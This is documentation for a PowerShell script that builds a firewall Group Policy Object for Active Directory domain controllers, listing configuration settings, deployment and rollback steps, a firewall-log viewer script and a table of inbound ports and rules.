

The remainder of this chapter contains documentation to all the available settings.

### GroupPolicyObjectName

The name of the Group Policy Object (GPO) that will be created or updated. Feel free to change it so that it complies with your naming policy.

```yaml
Type: String
Required: true
Default value: Domain Controller Firewall
```

### GroupPolicyObjectComment

The comment text that will be visible on the GPO object.  

```yaml
Type: String
Required: false
Default value: "This GPO is managed by the Set-ADDSFirewallPolicy.ps1 PowerShell script."
```

### LogDroppedPackets

Indicates whether the packets dropped by the firewall should be logged.

If `true`, all dropped packets will be logged into the [firewall text log](#logfilepath). If `false`, no packets are logged.  

```yaml
Type: Boolean
Required: false
Default value: false
Recommended value: true
Possible values: true / false
```

### LogAllowedPackets

Indicates whether the packets allowed by the firewall should be logged.

If `true`, all allowed packets will be logged into the [firewall text log](#logfilepath). If `false`, no packets are logged.  

```yaml
Type: Boolean
Required: false
Default value: false
Recommended value: false
Possible values: true / false
```

### LogFilePath

Specifies the path to the log file that will be used to store information about the allowed and/or dropped packets, if [logging is enabled](#logdroppedpackets).  
As all 3 profiles (Domain/Private/Public) are configured identically, single log file is created for all of them, to allow easier search, troubleshooting and ingestion by log collectors.  

[Startup script](#startup-script)

```shell
echo Create the firewall log file and configure its DACL.
netsh.exe advfirewall set allprofiles logging filename "%systemroot%\system32\logfiles\firewall\pfirewall.log"
```

```yaml
Type: String
Required: false
Default value: %systemroot%\\system32\\logfiles\\firewall\\pfirewall.log
```

### LogMaxSizeKilobytes

Sets the maximum size of the [firewall log](#logfilepath) in kilobytes (KB). The file won't grow beyond this size; when the limit is reached, old log entries are deleted to make room for the newly created ones.

```yaml
Type: Integer
Required: false
Default value: 128
Recommended value: 32767
Possible values: 1 - 32767
```

### ClientAddresses

List of client IP adresses from which inbound traffic should be allowed.

Possible values: IPv4 address, IPv4 subnet or IPv4 address range, separated by a comma, e.g. "10.220.2.0/24", "10.220.4.0/24", "10.220.5.0/24", "192.168.0.1-192.168.0.10". Supports also "Any" as an input.

Specify IPv4 address, IPv4 subnet or address range of all your clients. Anything what acts as a client from a DC perspective is considered client here, so you should specify all your server and user/client subnets.  
Everything that needs to interact with your DCs should be included here, except other DCs and secure endpoints (PAWs) used to manage Domain Controllers or Tier 0.

> [!WARNING]
> This is a critical configuration setting! With improper configuration, this could cause network outage for your clients.

```yaml
Type: String[]
Required: false
Default value: [ "Any" ]
```

### ManagementAddresses

List of IP addresses from which inbound management traffic should be allowed.

Possible values: IPv4 address, IPv4 subnet or IPv4 address range, separated by a comma, e.g. "10.220.2.0/24", "10.220.4.0/24", "10.220.5.0/24", "192.168.0.1-192.168.0.10".

Specify IPv4 address, IPv4 subnet or address range of all secure endpoints (PAWs) used to manage Domain Controllers or Tier 0.  

> [!WARNING]
> This is a critical configuration setting! With improper configuration, this could cause network outage for your management workstations.

```yaml
Type: String[]
Required: false
Default value: [ "Any" ]
```

### DomainControllerAddresses

List of domain controller IP addresses, between which replication and management traffic will be allowed.

Possible values: IPv4 address, IPv4 subnet or IPv4 address range, separated by a comma, e.g. "10.220.2.0/24", "10.220.4.0/24", "10.220.5.0/24", "192.168.0.1-192.168.0.10".

Specify IPv4 address, IPv4 subnet or address range of all your Domain Controllers in the forest.

> [!WARNING]
> This is a critical configuration setting! With improper configuration, this could cause network outage for your DCs.

```yaml
Type: String[]
Required: false
Default value: [ "Any" ]
```

### NtdsStaticPort

Static port to be used for inbound Active Directory RPC traffic.

By default, the RPC is using dynamic ports 49152 – 65535. If `null`, this setting is not managed through GPO. If value is defined, this value will be set as static port for Active Directory RPC traffic. See the [How to restrict Active Directory RPC traffic to a specific port](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/restrict-ad-rpc-traffic-to-specific-port) article for more information.
If set to 0 (zero), the port is set to dynamic.
If this is configured, you also need to configure the `NetlogonStaticPort` value.

> HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters  
> Registry value: TCP/IP Port  
> Value type: REG_DWORD  
> Value data: (available port)

Restart the computer for the new setting to become effective.

```yaml
Type: Integer
Default value: null
Recommended value: 38901
Possible values: null / 0 / 1024 - 49151
```

### NetlogonStaticPort

Description: By default, the RPC is using dynamic ports 49152 – 65535. If `null`, this setting is not managed through GPO. If value is defined, this value will be set as static port for Active Directory RPC traffic. See the [How to restrict Active Directory RPC traffic to a specific port](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/restrict-ad-rpc-traffic-to-specific-port) article for more information.
If set to 0 (zero), the port is set to dynamic.
If this is configured, you also need to configure `NtdsStaticPort` value.

> HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\Netlogon\\Parameters  
> Registry value: DCTcpipPort  
> Value type: REG_DWORD  
> Value data: (available port)

Restart the Netlogon service for the new setting to become effective.

```yaml
Type: Integer
Default value: null
Recommended value: 38902
Possible values: null / 0 / 1024 - 49151
```

### FrsStaticPort

Static port to be used for legacy FRS traffic.

By default, the FSR is using dynamic RPC ports. If `null`, this setting is not managed through GPO. If value is defined, this value will be set as static port for DFS Replication traffic.
If set to 0 (zero), the port is set to dynamic.

> HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\NTFRS\\Parameters  
> Registry value: RPC TCP/IP Port Assignment  
> Value type: REG_DWORD  
> Value data: (available port)

Restart the File Replication service for the new setting to become effective.

```yaml
Type: Integer
Default value: null
Recommended value: 38903
Possible values: null / 0 / 1024 - 49151
```

### DfsrStaticPort

Static port to be used for DFSR traffic.

By default, the DFSR is using dynamic ports 49152 – 65535. If `null`, this setting is not managed through GPO. If value is defined, this value will be set as static port for DFS Replication traffic, for more info, see the [Configuring DFSR to a Static Port - The rest of the story](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/configuring-dfsr-to-a-static-port-the-rest-of-the-story/ba-p/396746) article.
If set to 0 (zero), the port is set to dynamic.

[Startup script](#startup-script)

1024 - 49151:

```shell
echo Install the dfsrdiag.exe tool if absent.
if not exist "%SystemRoot%\system32\dfsrdiag.exe" (
    dism.exe /Online /Enable-Feature /FeatureName:DfsMgmt
)

echo Set static RPC port for DFS Replication.
dfsrdiag.exe StaticRPC /Port:5722
```

0:

```shell
echo Install the dfsrdiag.exe tool if absent.
if not exist "%SystemRoot%\system32\dfsrdiag.exe" (
    dism.exe /Online /Enable-Feature /FeatureName:DfsMgmt
)

echo Set dynamic RPC port for DFS Replication.
dfsrdiag.exe StaticRPC /Port:0
```

`null`: not present

```yaml
Type: Integer
Default value: null
Recommended value: 5722
Possible values: null / 0 / 1024 - 49151
```

### WmiStaticPort

Indicates whether inbound Windows Management Instrumentation (WMI) traffic should use a static port.

By default, the WMI is using dynamic ports 49152 – 65535. If `null`, this setting is not managed through GPO. If `true`, WMI will use static port 24158, if false, WMI will use dynamic port. For more info, see the [Setting Up a Fixed Port for WMI](https://learn.microsoft.com/en-us/windows/win32/wmisdk/setting-up-a-fixed-port-for-wmi) article.

[Startup script](#startup-script)

`true`:

The [RPC_C_AUTHN_LEVEL_PKT_PRIVACY](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/425a7c53-c33a-4868-8e5b-2a850d40dc73) setting prevents replay attacks, verifies that none of the data transferred between the client and server has been modified and ensures that the data transferred can only be seen unencrypted by the client and the server.

```shell
echo Move the WMI service to a standalone process listening on TCP port 24158 with authentication level set to RPC_C_AUTHN_LEVEL_PKT_PRIVACY.
winmgmt.exe /standalonehost 6
```

`false`:

```shell
echo Move the WMI service into the shared Svchost process.
winmgmt.exe /sharedhost
```

`null`: not present

```yaml
Type: Boolean
Required: false
Default value: null
Recommended value: true
Possible values: true / false / null
```

### DisableNetbiosBroadcasts

Indicates whether the NetBIOS protocol should be switched to P-node (point-to-point) mode. If `true` NetBIOS node type is set to P-node. If `false` NetBIOS node type is set to H-node (hybrid) If `null` NetBIOS node type is not managed through GPO.

```yaml
Type: Boolean
Required: false
Default value: null
Recommended value: true
Possible values: true / false / null
```

### DisableLLMNR

Indicates whether the Link-Local Multicast Name Resolution (LLMNR) client should be disabled.

If `true`, Link Local Multicast Name Resolution (LLMNR) is disabled. If `false`, LLMNR is enabled. If `null` LLMNR configuration is not managed through GPO. For more info, please refer to the *AZ-WIN-00145* configuration item in the [Windows security baseline](https://learn.microsoft.com/en-us/azure/governance/policy/samples/guest-configuration-baseline-windows).

```yaml
Type: Boolean
Required: false
Default value: false
Recommended value: true
Possible values: true / false
```

### DisableMDNS

Indicates whether the Multicast DNS (mDNS) client should be disabled.

If `true`, mDNS is disabled. If `false`, mDNS is enabled. If `null`, this setting is not managed through GPO. For more info, see the following [Microsoft article](https://techcommunity.microsoft.com/t5/networking-blog/mdns-in-the-enterprise/ba-p/3275777).

```yaml
Type: Boolean
Required: false
Default value: null
Recommended value: true
Possible values: true / false / null
```

### EnableServiceManagement

Indicates whether remote service management should be enabled.

If `true`, corresponding ports are open and remote services management will be available. If `false`, services cannot be managed remotely. The script achieves this by enabling or disabling the [Remote Service Management (RPC)](#remote-service-management-rpc) firewall rule.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

### EnableEventLogManagement

Indicates whether remote event log management should be enabled. If `true`, the corresponding port is open and remote Event Log management will be available. If `false`, Event Log cannot be managed remotely.  The script achieves this by enabling or disabling the [Remote Event Log Management (RPC)](#remote-event-log-management-rpc) firewall rule.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: true
Possible values: true / false
```

### EnableScheduledTaskManagement

Indicates whether remote scheduled task management should be enabled.

If `true`, corresponding ports are open and remote scheduled tasks management will be available. If `false`, scheduled tasks cannot be managed remotely. The script achieves this by enabling or disabling the [Remote Scheduled Tasks Management (RPC)](#remote-scheduled-tasks-management-rpc) firewall rule.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

### EnableWindowsRemoteManagement

Indicates whether inbound Windows Remote Management (WinRM) traffic should be enabled. This protocol is used by PowerShell Remoting, Server Manager, and [PowerShell CIM cmdlets](https://learn.microsoft.com/en-us/powershell/module/cimcmdlets/?view=powershell-7.4).

If `true`, corresponding ports are open and WinRM will be available. If `false`, WinRM ports won’t be open. The script achieves this by enabling or disabling the [Windows Remote Management (HTTP-In)](#windows-remote-management-http-in) and [Windows Remote Management (HTTPS-In)](#windows-remote-management-https-in) firewall rules.

For more info, see the following [Microsoft article](https://learn.microsoft.com/en-us/windows/win32/winrm/about-windows-remote-management).

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: true
Possible values: true / false
```

### EnablePerformanceLogAccess

Indicates whether remote performance log access should be enabled.

If `true`, corresponding ports are open and remote Performance Log management will be available. If `false`, Performance Log cannot be managed remotely. The script achieves this by enabling or disabling the [Performance Logs and Alerts (TCP-In)](#performance-logs-and-alerts-tcp-in) firewall rule.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

### EnableOpenSSHServer

Indicates whether inbound OpenSSH traffic should be enabled.

If `true`, corresponding ports are open and OpenSSH will be available. If `false`, OpenSSH won't be allowed. The script achieves this by enabling or disabling the [OpenSSH SSH Server (sshd)](#openssh-ssh-server-sshd) firewall rule.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

### EnableRemoteDesktop

Indicates whether inbound Remote Desktop Protocol (RDP) traffic should be enabled.

If `true`, corresponding ports are open and remote desktop connection (RDP) will be available. If `false`, RDP is not available. The script achieves this by enabling or disabling the [Remote Desktop - User Mode (TCP-In)](#remote-desktop---user-mode-tcp-in) and [Remote Desktop - User Mode (UDP-In)](#remote-desktop---user-mode-udp-in) firewall rules.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: true
Possible values: true / false
```

### EnableDiskManagement

Indicates whether remote disk management should be enabled.

If `true`, corresponding ports are open and remote disk management will be available. If `false`, disks cannot be managed remotely. The script achieves this by enabling or disabling the [Remote Volume Management - Virtual Disk Service Loader (RPC)](#remote-volume-management---virtual-disk-service-loader-rpc) and [Remote Volume Management - Virtual Disk Service (RPC)](#remote-volume-management---virtual-disk-service-rpc) firewall rules.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

### EnableBackupManagement

Indicates whether remote management of Windows Server Backup should be enabled.

If `true`, corresponding ports are open and remote Windows Backup management will be available. If `false`, Windows Backup cannot be managed remotely. The script achieves this by enabling or disabling the [Windows Backup (RPC)](#windows-backup-rpc) firewall rule.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

### EnableFirewallManagement

Indicates whether remote firewall management should be enabled.

If `true`, corresponding ports are open and remote Windows Defender Firewall management will be available. If `false`, Windows Defender Firewall cannot be managed remotely. The script achieves this by enabling or disabling the [Windows Defender Firewall Remote Management (RPC)](#windows-defender-firewall-remote-management-rpc) firewall rule.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

### EnableComPlusManagement

Indicates whether inbound COM+ management traffic should be enabled.

If `true`, corresponding ports are open and remote DCOM traffic for COM+ System Application management is allowed. If `false`, COM+ System Application cannot be managed remotely. The script achieves this by enabling or disabling the [COM+ Remote Administration (DCOM-In)](#com-remote-administration-dcom-in) firewall rule.

For more info, see the following [Microsoft article](https://learn.microsoft.com/en-us/windows/win32/cossdk/com--application-overview).

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

### EnableLegacyFileReplication

Indicates whether inbound legacy file replication traffic should be enabled.

If `true`, corresponding ports are open for NTFRS replication. If you still haven’t migrated your `SYSVOL` replication to modern DFSR, you need to enable this setting. If `false`, NTFRS ports won’t be open. The script achieves this by enabling or disabling the [File Replication (RPC)](#file-replication-rpc) firewall rule.

For more info, see the following [Microsoft article](https://learn.microsoft.com/en-us/windows-server/storage/dfs-replication/migrate-sysvol-to-dfsr).

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

### EnableNetbiosNameService

Indicates whether inbound NetBIOS Name Service should be allowed.

If `true`, corresponding ports (UDP 137) are open and NetBIOS will be available. If `false`, NetBIOS ports are not open. The script achieves this by enabling or disabling the [File and Printer Sharing (NB-Name-In)](#file-and-printer-sharing-nb-name-in) firewall rule.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

### EnableNetbiosDatagramService

Indicates whether inbound NetBIOS Datagram Service traffic should be allowed.

If `true`, corresponding ports (UDP 138) are open and NetBIOS will be available. If `false`, NetBIOS ports are not open. The script achieves this by enabling or disabling the [Active Directory Domain Controller - NetBIOS name resolution (UDP-In)](#active-directory-domain-controller---netbios-name-resolution-udp-in) firewall rule.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

### EnableNetbiosSessionService

Indicates whether inbound NetBIOS Session Service (NBSS) traffic should be allowed.

If `true`, corresponding ports (TCP 139) are open and NetBIOS will be available. If `false`, NetBIOS ports are not open. The script achieves this by enabling or disabling the [File and Printer Sharing (NB-Session-In)](#file-and-printer-sharing-nb-session-in) firewall rule.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

### EnableWINS

Indicates whether inbound Windows Internet Name Service (WINS) traffic should be allowed.

If `true`, corresponding ports are open and Windows Internet Naming Service (WINS) will be available. If `false`, WINS ports are not open. The script achieves this by enabling or disabling the [Windows Internet Naming Service (WINS) (TCP-In)](#windows-internet-naming-service-wins-tcp-in), [Windows Internet Naming Service (WINS) (UDP-In)](#windows-internet-naming-service-wins-udp-in), and [Windows Internet Naming Service (WINS) - Remote Management (RPC)](#windows-internet-naming-service-wins---remote-management-rpc) firewall rules.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

### EnableNetworkProtection

Indicates whether the [Network protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/network-protection?view=o365-worldwide#overview-of-network-protection) feature of Microsoft Defender Antivirus should be enabled.

If `true` MDA Network Protection will be configured in block mode. If `false` MDA Network Protection will be configured in audit mode only. If `null` MDA Network Protection will not be configured.

```yaml
Type: Boolean
Required: false
Default value: null
Recommended value: true
Possible values: true / false / null
```

### BlockWmiCommandExecution

Indicates whether to block process creations originating from PSExec and WMI commands using Defender ASR. This is achieved by enforcing the following Microsoft Defender Antivirus Attack Surface Reduction (ASR) rules:

- [Block process creations originating from PSExec and WMI commands](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide#block-process-creations-originating-from-psexec-and-wmi-commands)
- [Block persistence through WMI event subscription](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide#block-persistence-through-wmi-event-subscription)

If `true` MDA Attack Surface Reduction rules (mentioned above) will be configured in block mode. If `false` MDA Attack Surface Reduction rules (mentioned above) will be configured in audit mode only, allowing you to evaluate the possible impact if the rules were enabled in block mode. If `null` MDA ASR rules are not configured, effectively disabling the rules.

```yaml
Type: Boolean
Required: false
Default value: null
Recommended value: true
Possible values: true / false / null
```

### EnableRpcFilters

Indicates whether additional [filtering of RPC over Named Pipes](#rpc-filters) should be applied.

If `true`, RPC filters defined in `RpcNamedPipesFilters.txt` will be enabled. If `false`, RPC filters are not enabled. If `null` this setting is not managed.

```yaml
Type: Boolean
Required: false
Default value: null
Recommended value: true
Possible values: true / false / null
```

### EnableLocalIPsecRules

Indicates whether local IPSec rules should be enabled. Although no IPSec rules are deployed by this solution, most [security baselines](#security-standards-compliance) require local IPSec rules to be disabled.

If `true`, local IPSec rules will be enabled. If `false`, only IPSec rules distributed through GPOs will be allowed.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

## Deployment

### Prerequisites

 


- Domain Admins group membership or equivalent privileges, enabling the creation of a Group Policy Object (GPO), creation of folders and files in `SYSVOL`, and linking the GPO to the Domain Controllers OU.
- PowerShell modules that must be installed as part of RSAT:
  - [GroupPolicy](https://learn.microsoft.com/en-us/powershell/module/grouppolicy/?view=windowsserver2022-ps)
  - [ActiveDirectory](https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps)

### Installation

If you finished with modifying all required configuration settings in the `Set-ADDSFirewallPolicy.json` file, it is recommended to review the [set of rules](#inbound-firewall-rules-reference) that will be deployed by the GPO.  

Once the review is completed, you can begin with the deployment.

Open Powershell and run the `Set-ADDSFirewallPolicy.ps1` script:


You might need to adjust your Powershell execution policy to allow execution of the script:


> [!NOTE]
> If you are using AppLocker, Device Guard or Constrained Language Mode, you might need adjust the configured restrictions in order to run the script.  

Script logic:

Creates GPO – the GPO is NOT linked to any OU.

Atomic changes…

Creates startup script `FirewallConfiguration.bat` (batch file is used to avoid any issues with Powershell execution policy)


If the script has finished without any errors, all required objects should be deployed.

The last step is to link the newly created GPO to Domain Controllers OU.

Before doing that, you should **thoroughly review** the GPO!  

Once done, link the GPO to Domain Controllers OU.


By default, GPO is refreshed every 5 minutes for DCs, so all your DCs should have the firewall configuration applied within maximum of 5 minutes.

## Troubleshooting

`Show-WindowsFirewallLog.ps1`

```powershell
<#
.SYNOPSIS
Parses Windows Firewall log file.

.PARAMETER LogFilePath
Path to the log file.

.PARAMETER Live
Indicates that the log file should be monitored for new entries.

.NOTES
Author:  Michael Grafnetter
Version: 1.2

#>

#Requires -Version 3
#Requires -RunAsAdministrator

Param(
    [Parameter(Mandatory = $false, Position = 0)]
    [ValidateNotNullOrEmpty()]
    [string] $LogFilePath = "$env:SystemRoot\System32\LogFiles\Firewall\pfirewall.log",

    [Parameter()]
    [switch] $Live
)

[string[]] $columnsToShow = @('date','time','path','action','pid',
    'src-ip','src-port','dst-ip','dst-port','icmptype','icmpcode')

Get-Content -Path $LogFilePath -Wait:($Live.IsPresent) |
    Select-Object -Skip 3 |
    ForEach-Object { $PSItem -replace '^#Fields: ' } |
    ConvertFrom-Csv -Delimiter ' ' |
    Select-Object -Property $columnsToShow |
    Out-GridView -Title 'Windows Firewall Log' -Wait
```


## Rollback

As some of the settings are propagated throug startup script and some, even though propagated through GPO, cause tattooing, you first need to reconfigure some settings in the GPO and modify the startup script, let the changes apply on all DCs and only after that, unlink the GPO.

Follow these steps:

1. Change the following settings in the GPO:

- [NtdsStaticPort](#ntdsstaticport)
- [NetlogonStaticPort](#netlogonstaticport)
- [FrsStaticPort](#frsstaticport)
- [DisableNetbiosBroadcasts](#disablenetbiosbroadcasts)
- [DisableMDNS](#disablemdns)

[Locate](#administrative-templates) all the above settings in the Firewall GPO and set them to "Not Configured".



2. Change the following settings in the startup script:

- [DfsrStaticPort](#dfsrstaticport)
- [WmiStaticPort](#wmistaticport)

Locate and open `FirewallConfiguration.bat` file, located in the "Startup" folder of the DC firewall GPO (e.g.: `C:\Windows\Sysvol\domain\Policies\{03AAF463-967E-46DD-AB7F-DBD4ECC28F63}\Machine\Scripts\Startup`):

> [!NOTE]
> The GUID in the path is randomly generated and will be different in each environment. Also the path to `SYSVOL` might differ based on your DC configuration.

Change the following line `winmgmt.exe /standalonehost 6` ⇒ `winmgmt /sharedhost`  
Change the following line `dfsrdiag.exe StaticRPC /Port:5722` ⇒ `dfsrdiag staticrpc /port:0`



3. Remove the RPC filters

Remove "#" before "exit" at line 15 in `RpcNamedPipesFilters.txt`, located in the "Startup" folder of the DC firewall GPO (e.g.: `C:\Windows\Sysvol\domain\Policies\{03AAF463-967E-46DD-AB7F-DBD4ECC28F63}\Machine\Scripts\Startup`):

> [!NOTE]
> The GUID in the path is randomly generated and will be different in each environment. Also the path to `SYSVOL` might differ based on your DC configuration.



4. Restart the DCs

Once AD and `SYSVOL` replication convergence is achieved and all DCs in the environment received the changed GPO, startup script and RPC configuration file, you need to restart all DCs.

5. Unlink the GPO

Once all DCs have been restarted, you unlink the Firewall GPO from the Domain Controllers container in GPO management console.

## Inbound Firewall Rules Reference

### Microsoft's Guidelines

- [How to configure a firewall for Active Directory domains and trusts](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/config-firewall-for-ad-domains-and-trusts)
- [Service overview and network port requirements for Windows](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/service-overview-and-network-port-requirements)

Dynamic RPC ports, listed in the following table, can be set to static port through [Configuration File](#configuration-file):

- [NTDS static port](#ntdsstaticport)
- [Netlogon static port](#netlogonstaticport)
- [FRS static port](#frsstaticport)
- [DFSR static port](#dfsr-static-port)

> [!IMPORTANT]
> TODO: Needs splitting, extending, and mapping to the default rules.

|Port|Service|Rule Reference|
|---|---|---|
|123/UDP|W32Time|[Active Directory Domain Controller - W32Time (NTP-UDP-In)](#active-directory-domain-controller---w32time-ntp-udp-in)|
|135/TCP|RPC Endpoint Mapper|[Active Directory Domain Controller (RPC-EPMAP)](#active-directory-domain-controller-rpc-epmap) |
|464/UDP|Kerberos password change|[Kerberos Key Distribution Center - PCR (UDP-In)](#kerberos-key-distribution-center---pcr-udp-in)|
|464/TCP|Kerberos password change|[Kerberos Key Distribution Center - PCR (TCP-In)](#kerberos-key-distribution-center---pcr-tcp-in)|
|49152-65535/TCP|RPC for LSA, SAM, NetLogon|[Active Directory Domain Controller (RPC)](#active-directory-domain-controller-rpc)|
|389/UDP|LDAP|[Active Directory Domain Controller - LDAP (UDP-In)](#active-directory-domain-controller---ldap-udp-in)|
|389/TCP|LDAP|[Active Directory Domain Controller - LDAP (TCP-In)](#active-directory-domain-controller---ldap-tcp-in)|
|636/TCP|LDAP SSL|[Active Directory Domain Controller - Secure LDAP (TCP-In)](#active-directory-domain-controller---secure-ldap-tcp-in)|
|3268/TCP|LDAP GC|[Active Directory Domain Controller - LDAP for Global Catalog (TCP-In)](#active-directory-domain-controller---ldap-for-global-catalog-tcp-in)|
|3269/TCP|LDAP GC SSL|[Active Directory Domain Controller - Secure LDAP for Global Catalog (TCP-In)](#active-directory-domain-controller---secure-ldap-for-global-catalog-tcp-in)|
|53/UDP|DNS|[DNS (UDP, Incoming)](#dns-udp-incoming)|
|53/TCP|DNS|[DNS (TCP, Incoming)](#dns-tcp-incoming)|
|49152-65535/TCP|FRS RPC|[File Replication (RPC)](#file-replication-rpc)|
|88/TCP|Kerberos|[Kerberos Key Distribution Center (TCP-In)](#kerberos-key-distribution-center-tcp-in)|
|88/UDP|Kerberos|[Kerberos Key Distribution Center (UDP-In)](#kerberos-key-distribution-center---pcr-udp-in)|
|445/UDP|SMB|[Active Directory Domain Controller - SAM/LSA (NP-UDP-In)](#active-directory-domain-controller---samlsa-np-udp-in)|
|445/TCP|SMB|[Active Directory Domain Controller - SAM/LSA (NP-TCP-In)](#active-directory-domain-controller---samlsa-np-tcp-in)|
|49152-65535/TCP|DFSR RPC|[DFS Replication (RPC-In)](#dfs-replication-rpc-in)|
|N/A|ICMPv4|[Active Directory Domain Controller - Echo Request (ICMPv4-In)](#active-directory-domain-controller---echo-request-icmpv4-in)|
|N/A|ICMPv6|[Active Directory Domain Controller - Echo Request (ICMPv6-In)](#active-directory-domain-controller---echo-request-icmpv6-in)|
|138/UDP|NetBIOS|[Active Directory Domain Controller - NetBIOS name resolution (UDP-In)](#active-directory-domain-controller---netbios-name-resolution-udp-in)|
|N/A|ICMPv6|[Core Networking - Destination Unreachable (ICMPv6-In)](#core-networking---destination-unreachable-icmpv6-in)|
|N/A|ICMPv4|[Core Networking - Destination Unreachable Fragmentation Needed (ICMPv4-In)](#core-networking---destination-unreachable-fragmentation-needed-icmpv4-in)|
|N/A|ICMPv6|[Core Networking - Neighbor Discovery Advertisement (ICMPv6-In)](#core-networking---neighbor-discovery-advertisement-icmpv6-in)|
|N/A|ICMPv6|[Core Networking - Neighbor Discovery Solicitation (ICMPv6-In)](#core-networking---neighbor-discovery-solicitation-icmpv6-in)|
|N/A|ICMPv6|[Core Networking - Packet Too Big (ICMPv6-In)](#core-networking---packet-too-big-icmpv6-in)|
|N/A|ICMPv6|[Core Networking - Parameter Problem (ICMPv6-In)](#core-networking---parameter-problem-icmpv6-in)|
|N/A|ICMPv6|[Core Networking - Time Exceeded (ICMPv6-In)](#core-networking---time-exceeded-icmpv6-in)|
|42/TCP|WINS|[Windows Internet Naming Service (WINS) (TCP-In)](#windows-internet-naming-service-wins-tcp-in)|
|42/UDP|WINS|[Windows Internet Naming Service (WINS) (UDP-In)](#windows-internet-naming-service-wins-udp-in)|
|137/UDP|File and Printer Sharing|[File and Printer Sharing (NB-Name-In)](#file-and-printer-sharing-nb-name-in)|
|137/TCP|File and Printer Sharing|[File and Printer Sharing (NB-Session-In)](#file-and-printer-sharing-nb-session-in)|
|9389/TCP|AD Web Services|[Active Directory Web Services (TCP-In)](#active-directory-web-services-tcp-in)|
